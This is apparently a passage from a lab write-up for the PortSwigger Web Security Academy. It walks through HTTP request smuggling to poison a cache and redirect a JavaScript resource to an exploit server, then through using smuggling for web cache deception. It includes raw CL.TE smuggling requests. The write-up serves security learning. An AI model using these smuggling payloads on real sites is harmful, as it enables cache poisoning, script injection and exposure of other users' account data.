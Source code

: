 Our  location got redirected to a host of our choice 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/7ca4d145-8acb-4e40-9414-e2d15314a0fe)



On our exploit server 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/fbb03e4f-562c-4b7d-b47f-e0052c8c9601)


Change our ANYTHING host to our exploit server and intercept a request from /resources/js/tracking.js
Add both to group and Separate connection for each request

```
POST / HTTP/1.1
Host: 0af500e903aec00281f025d700c80007.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 180
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: exploit-0a8100e9036bc025811d243a016e009e.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

Send group
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/74402595-d086-4610-a9d5-1c99f6379ff9)





Notice host changed to our exploit server on Location
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/32589dcc-a024-499b-8c49-be751972079e)






Should get an alert textbox when we refresh site

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/ac612921-6dbb-4fbf-9df2-be98df4f6a19)

**Exploiting HTTP request smuggling to perform web cache deception**

```
Login  
Capture response and changed to smuggle
POST / HTTP/1.1
Host: 0ab400b6040218b282d3152200d6004f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Ignore: X
```
